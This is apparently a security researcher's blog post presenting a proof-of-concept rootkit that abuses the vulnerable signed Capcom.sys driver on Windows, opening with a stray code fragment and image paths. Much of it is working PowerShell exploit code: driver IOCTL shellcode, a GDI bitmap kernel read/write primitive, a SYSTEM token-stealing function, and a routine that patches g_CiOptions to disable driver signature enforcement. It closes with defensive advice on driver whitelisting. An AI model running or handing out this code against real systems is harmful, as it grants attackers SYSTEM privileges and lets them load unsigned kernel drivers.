








# Some tricks here
# => cmp [rax-8], rcx
echo "`n[>] Allocating Capcom payload.."
[IntPtr]$Pointer = [CapCom]::VirtualAlloc([System.IntPtr]::Zero, (8 + $Shellcode.Length), 0x3000, 0x40)
$ExploitBuffer = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8) + $Shellcode
[System.Runtime.InteropServices.Marshal]::Copy($ExploitBuffer, 0, $Pointer, (8 + $Shellcode.Length))
echo "[+] Payload size: $(8 + $Shellcode.Length)"
echo "[+] Payload address: $("{0:X}" -f $Pointer.ToInt64())"
$hDevice = [CapCom]::CreateFile("\\.\Htsysm72FB", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\Htsysm72FB"
echo "[+] Handle: $hDevice"
}
# IOCTL = 0xAA013044
#---
$InBuff = [System.BitConverter]::GetBytes($Pointer.ToInt64()+8)
$OutBuff = 0x1234
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($InBuff.Length)"
echo "[+] IOCTL: 0xAA013044"
[CapCom]::DeviceIoControl($hDevice, 0xAA013044, $InBuff, $InBuff.Length, [ref]$OutBuff, 4, [ref]0, [System.IntPtr]::Zero) |Out-null
Capcom Rootkit Proof-Of-Concept
Hola and welcome! Recently I was reading an article on the Derusbi malware. The focus of the post was on a technique used by the malware authors which leveraged a vulnerability (CVE-2013-3956) in a signed Novell driver to flip some bits in the kernel which temporarily disabled the driver signing requirement. Once disabled, Derusbi loaded a NDIS driver, presumably this allowed for transparent sniffing and transmission of raw packets (I have not looked into the specifics).
Anyway, I was curious how difficult it would be to put together a POC with the same basic functionality (not very difficult as it turns out!). To fully simulate the attacker's scenario I decided to use a vulnerability in a signed driver, Capcom.sys, first disclosed by @TheWack0lian on 23 September 2016. Enough nonsense, let get to it!
Resources:
+ Capcom-Rootkit (@FuzzySec) - here
+ Windows driver signing bypass by Derusbi - here
+ A quick insight into the Driver Signature Enforcement (@j00ru) - here
+ Defeating x64 Driver Signature Enforcement (@hFireF0X) - here
Driver Vulnerability
The main goal of this post is not to analyse the driver bug. I highly recommend that you have a look at @TheColonial most excellent walkthrough's to get a better picture of the exploitation process.
Essentially, the driver provides ring0 code execution as a service! It's only function is to take a user-land pointer, disable SMEP, execute code at the pointer address and re-enable SMEP. A disassembly of the offending function can be seen below.

The powershell POC below illustrates how this issue can be exploited practically.
With the ability to execute arbitrary shellcode, I chose to stage a GDI bitmap primitive which would give me persistent read/write in the kernel without needing to call the driver over and over again. To create the bitmaps I used Stage-gSharedInfoBitmap and set up the shellcode in the following manner.
# Leak BitMap pointers
echo "`n[>] gSharedInfo bitmap leak.."
$Manager = Stage-gSharedInfoBitmap
$Worker = Stage-gSharedInfoBitmap
echo "[+] Manager bitmap Kernel address: 0x$("{0:X16}" -f $($Manager.BitmapKernelObj))"
echo "[+] Worker bitmap Kernel address: 0x$("{0:X16}" -f $($Worker.BitmapKernelObj))"
# Shellcode buffer
[Byte[]] $Shellcode = @(
0x48, 0xB8) + [System.BitConverter]::GetBytes($Manager.BitmappvScan0) + @( # mov rax,$Manager.BitmappvScan0
0x48, 0xB9) + [System.BitConverter]::GetBytes($Worker.BitmappvScan0) + @( # mov rcx,$Manager.BitmappvScan0
0x48, 0x89, 0x08, # mov qword ptr [rax],rcx
0xC3 # ret
)
Further details on this technique can be found in a post I wrote for @mwrlabs titled A Tale Of Bitmaps: Leaking GDI Objects Post Windows 10 Anniversary Edition and part 17 of my Windows exploit development tutorial series.
Rootkit Functionality
Now we have arbitrary read/write in the kernel we can start working on our rootkit functionality. I decided to focus on two different features: (1) Elevating arbitrary PID's to SYSTEM and (2) disabling driver signing enforcement at runtime to load unsigned code into the kernel.
Arbitrary Process Elevation
At a high level we need to traverse the linked list of EPROCESS structures, copy the SYSTEM EPROCESS token field and use this value to overwrite the token field of the target EPROCESS structure. Without any kind of vulnerability in hand we can actually leak a pointer to the System (PID 4) EPROCESS entry from user-land.

It should be noted that using "SystemModuleInformation" to leak the base address of the currently loaded NT kernel only works from a medium integrity process since Windows 8.1. We can easily implement this process in powershell, using Get-LoadedModules, and verify our results in KD.


Cool, so we have a way to get a pointer to the System EPROCESS struct and using our bitmap primitive we can easily read out the SYSTEM token associated with that process. The final thing we need to do is traverse the "ActiveProcessLinks" linked list to find the EPROCESS struct associated with the PID we want to elevate. A representation of this linked list, using x64 Win10 offsets, is shown below.

This linked list obviously extends on either side and loops round on itself. In simple terms, we will use our bitmap primitive to read the PID of the current EPROCESS structure, if it matches the PID we are targeting we will overwrite the process token, if it does not match we read out the address of the next EPROCESS structure from the "ActiveProcessLinks->Flink" and try again.
The EPROCESS struct is opaque (MSFT slang for undocumented) and changes between versions of the Windows OS but we can maintain a list of static offsets to take care of this! I highly recommend having a look at the Terminus Project by @rwfpl. The powershell function below implements this token-stealing logic.
function Capcom-ElevatePID {
param ([Int]$ProcPID)
# Check our bitmaps have been staged into memory
if (!$ManagerBitmap -Or !$WorkerBitmap) {
Capcom-StageGDI
if ($DriverNotLoaded -eq $true) {
Return
}
}
# Defaults to elevating Powershell
if (!$ProcPID) {
$ProcPID = $PID
}
# Make sure the pid exists!
# 0 is also invalid but will default to $PID
$IsValidProc = ((Get-Process).Id).Contains($ProcPID)
if (!$IsValidProc) {
Write-Output "`n[!] Invalid process specified!`n"
Return
}
# _EPROCESS UniqueProcessId/Token/ActiveProcessLinks offsets based on OS
# WARNING offsets are invalid for Pre-RTM images!
$OSVersion = [Version](Get-WmiObject Win32_OperatingSystem).Version
$OSMajorMinor = "$($OSVersion.Major).$($OSVersion.Minor)"
switch ($OSMajorMinor)
{
'10.0' # Win10 / 2k16
{
$UniqueProcessIdOffset = 0x2e8
$TokenOffset = 0x358
$ActiveProcessLinks = 0x2f0
}
'6.3' # Win8.1 / 2k12R2
{
$UniqueProcessIdOffset = 0x2e0
$TokenOffset = 0x348
$ActiveProcessLinks = 0x2e8
}
'6.2' # Win8 / 2k12
{
$UniqueProcessIdOffset = 0x2e0
$TokenOffset = 0x348
$ActiveProcessLinks = 0x2e8
}
'6.1' # Win7 / 2k8R2
{
$UniqueProcessIdOffset = 0x180
$TokenOffset = 0x208
$ActiveProcessLinks = 0x188
}
}
# Get EPROCESS entry for System process
$SystemModuleArray = Get-LoadedModules
$KernelBase = $SystemModuleArray[0].ImageBase
$KernelType = ($SystemModuleArray[0].ImageName -split "\\")[-1]
$KernelHanle = [Capcom]::LoadLibrary("$KernelType")
$PsInitialSystemProcess = [Capcom]::GetProcAddress($KernelHanle, "PsInitialSystemProcess")
$SysEprocessPtr = $PsInitialSystemProcess.ToInt64() - $KernelHanle + $KernelBase
$CallResult = [Capcom]::FreeLibrary($KernelHanle)
$SysEPROCESS = Bitmap-Read -Address $SysEprocessPtr
$SysToken = Bitmap-Read -Address $($SysEPROCESS+$TokenOffset)
Write-Output "`n[+] SYSTEM Token: 0x$("{0:X}" -f $SysToken)"
# Get EPROCESS entry for PID
$NextProcess = $(Bitmap-Read -Address $($SysEPROCESS+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
while($true) {
$NextPID = Bitmap-Read -Address $($NextProcess+$UniqueProcessIdOffset)
if ($NextPID -eq $ProcPID) {
$TargetTokenAddr = $NextProcess+$TokenOffset
Write-Output "[+] Found PID: $NextPID"
Write-Output "[+] PID token: 0x$("{0:X}" -f $(Bitmap-Read -Address $($NextProcess+$TokenOffset)))"
break
}
$NextProcess = $(Bitmap-Read -Address $($NextProcess+$ActiveProcessLinks)) - $UniqueProcessIdOffset - [System.IntPtr]::Size
}
# Duplicate token!
Write-Output "[!] Duplicating SYSTEM token!`n"
Bitmap-Write -Address $TargetTokenAddr -Value $SysToken
}

Driver Signature Enforcement Bypass
Adding to the long list of recommended reading in this post, I suggest you check out @j00ru write-up on driver signature enforcement here. As it turns out code integrity on Windows is managed by a single binary, ci.dll (=> %WINDIR%\System32\). Pre Windows 8, CI exports a global boolean variable g_CiEnabled, this is pretty self-explanatory either signing is enabled or it is disabled. In Windows 8+ g_CiEnabled is replaced by another global variable, g_CiOptions, which is a combination of flags (most importantly 0x0=disabled, 0x6=enabled, 0x8=Test Mode).
Due to Δt free-time restrictions this module will only target Win8+ installations using g_CiOptions. However, a similar methodology can be applied to g_CiEnabled (GitHub pull requests welcome!). Basically, we will be using the exact same technique as the Derusbi malware authors. Because g_CiOptions is not exported we have to do some dynamic calculations when patching the value. If we decompile CI!CiInitialize we can see that it leaks a pointer to g_CiOptions.

Similar to what we did before, we can leak the address for CI!CiInitialize from user-land without any kind of vulnerability!

From there, it is just a matter of implementing some logic to read out bytes using our bitmap primitive to look for the first "jmp" (0xE9) and then for the first "mov dword prt[xxxxx], ecx" (0x890D). Once we have the address of g_CiOptions we can set it to whatever value we like! The powershell function below implements search logic.
function Capcom-DriverSigning {
param ([Int]$SetValue)
# Check our bitmaps have been staged into memory
if (!$ManagerBitmap -Or !$WorkerBitmap) {
Capcom-StageGDI
if ($DriverNotLoaded -eq $true) {
Return
}
}
# Leak CI base => $SystemModuleCI.ImageBase
$SystemModuleCI = Get-LoadedModules |Where-Object {$_.ImageName -Like "*CI.dll"}
# We need DONT_RESOLVE_DLL_REFERENCES for CI LoadLibraryEx
$CIHanle = [Capcom]::LoadLibraryEx("ci.dll", [IntPtr]::Zero, 0x1)
$CiInitialize = [Capcom]::GetProcAddress($CIHanle, "CiInitialize")
# Calculate => CI!CiInitialize
$CiInitializePtr = $CiInitialize.ToInt64() - $CIHanle + $SystemModuleCI.ImageBase
Write-Output "`n[+] CI!CiInitialize: $('{0:X}' -f $CiInitializePtr)"
# Free CI handle
$CallResult = [Capcom]::FreeLibrary($CIHanle)
# Calculate => CipInitialize
# jmp CI!CipInitialize
for ($i=0;$i -lt 500;$i++) {
$val = ("{0:X}" -f $(Bitmap-Read -Address $($CiInitializePtr + $i))) -split '(..)' | ? { $_ }
# Look for the first jmp instruction
if ($val[-1] -eq "E9") {
$Distance = [Int]"0x$(($val[-3,-2]) -join '')"
$CipInitialize = $Distance + 5 + $CiInitializePtr + $i
Write-Output "[+] CI!CipInitialize: $('{0:X}' -f $CipInitialize)"
break
}
}
# Calculate => g_CiOptions
# mov dword ptr [CI!g_CiOptions],ecx
for ($i=0;$i -lt 500;$i++) {
$val = ("{0:X}" -f $(Bitmap-Read -Address $($CipInitialize + $i))) -split '(..)' | ? { $_ }
# Look for the first jmp instruction
if ($val[-1] -eq "89" -And $val[-2] -eq "0D") {
$Distance = [Int]"0x$(($val[-6..-3]) -join '')"
$g_CiOptions = $Distance + 6 + $CipInitialize + $i
Write-Output "[+] CI!g_CiOptions: $('{0:X}' -f $g_CiOptions)"
break
}
}
# print g_CiOptions
Write-Output "[+] Current CiOptions Value: $('{0:X}' -f $(Bitmap-Read -Address $g_CiOptions))`n"
if ($SetValue) {
Bitmap-Write -Address $g_CiOptions -Value $SetValue
# print new g_CiOptions
Write-Output "[!] New CiOptions Value: $('{0:X}' -f $(Bitmap-Read -Address $g_CiOptions))`n"
}
}
Case closed pretty much! The screenshot below show that the current g_CiOptions valus is 0x6 (= Driver signing is enabled) and that we are prevented from loading "evil.sys".

After overwriting the value, we can successfully load our unsigned driver!

The slightly humorous part is that g_CiOptions is protected by PatchGuard, which means that Windows will bluescreen (=> CRITICAL_STRUCTURE_CORRUPTION) if it notices that the value has been changed. This is however unlikely to happen, when testing I had to wait over one hour for PatchGuard to kick in. If you load the unsigned driver and restore the original value PatchGuard will be non the wiser! My defence-in-depth recommendation would be to trigger a PatchGuard check of CI on driver load, while this would not prevent an attacker from reflectively loading a driver it would definitely raise the bar.
Final Thoughts
Third party, signed, drivers pose a serious threat to the integrity of the Windows Kernel as I'm sure this example illustrates. Also, I found implementing simple kernel subversion easier than expected, especially with the PatchGuard time-delay. Overall, I think the most sensible course of action is for organisations to deploy device guard with a driver whitelist to essentially eliminate this type of attack-chain!
The Capcom-Rootkit is available on GitHub for educational/testing purposes, don't be a jackass!